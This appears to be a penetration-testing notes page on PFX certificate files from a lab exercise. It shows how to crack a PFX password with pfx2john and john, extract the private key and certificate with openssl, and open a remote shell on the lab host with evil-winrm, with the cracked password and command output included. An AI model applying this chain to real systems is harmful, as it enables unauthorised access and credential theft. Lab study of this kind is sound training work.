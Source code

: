 ```yaml
---
description: >-
  A Personal Information Exchange (PFX) file is a secure container that stores 
  private/public keys and certificates.
---
```


# PFX file

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

A .pfx file also known as PKCS#12 certificate or .p12 file format can contain certificates in different formats, including .cert, .crt, and .pem. It allows you to securely transfer the certificate and its private key from one computer to another.

### Components

PFX files are made of several components

* Private keys
* Public keys
* Certificates

### Opening .pfx file

It possible to crack password protected .pfx files with john.

```bash
# Use pfxjohn to get hash
$ pfx2john /home/kali/Downloads/legacyy_dev_auth.pfx > winrm.pfx                                                                                                                                                     

# Crack the hash with john.
$ john winrm.pfx --wordlist=rockyou.txt                                                                                                                                                                              
Using default input encoding: UTF-8                                                                                                                                                                                    
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])                                                                                                                                   
Cost 1 (iteration count) is 2000 for all loaded hashes                                                                                                                                                                 
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes                                                                                                                      
Will run 8 OpenMP threads                                                                                                                                                                                              
Press 'q' or Ctrl-C to abort, almost any other key for status                                                                                                                                                          
thuglegacy       (legacyy_dev_auth.pfx)                                                                                                                                                                                
1g 0:00:00:15 DONE (2024-10-18 10:57) 0.06626g/s 214164p/s 214164c/s 214164C/s thumper199..thscndsp1                                                                                                                   
Use the "--show" option to display all of the cracked passwords reliably                                                                                                                                               
Session completed.  
```

Knowing the password it is then possible using openssl to extract the private key and save it as a new .key file. The command will for this is:

### Dumping private key

* Use PKCS#12 format ([https://en.wikipedia.org/wiki/PKCS\_12](https://en.wikipedia.org/wiki/PKCS_12))
* Exclude certificates from output

```bash
# Extract private key
─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.pfx.key-enc                                                                                       
Enter Import Password:                                                                                     
Enter PEM pass phrase:                                                                                     
Verifying - Enter PEM pass phrase: 
```

After this we dump the certificate:

```bash
# Dump certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out legacyy_dev_auth.crt
```

#### Using the key and certificate

Having cracked the .pfx file and extracted the private key and certificate one of the possibilities to use them is WinRm. Commonly used by WinRM is port 5986.

* -c certificate file
* -k key file
* -S enable SSL

{% hint style="info" %}
We enable SSL because port 5986 was open which is HTTPS. Port 5985 is HTTP.
{% endhint %}

Finally we connect using evil-winrm

```bash
evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt

Evil-WinRM shell v3.6                                                                                                                                                                                                  
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                                                                                           
Warning: SSL enabled                                                                                                                                                                                                   
                                                                                                           
Info: Establishing connection to remote endpoint                                                                                                                                                                       
Enter PEM pass phrase:                       
*Evil-WinRM* PS C:\Users\
```
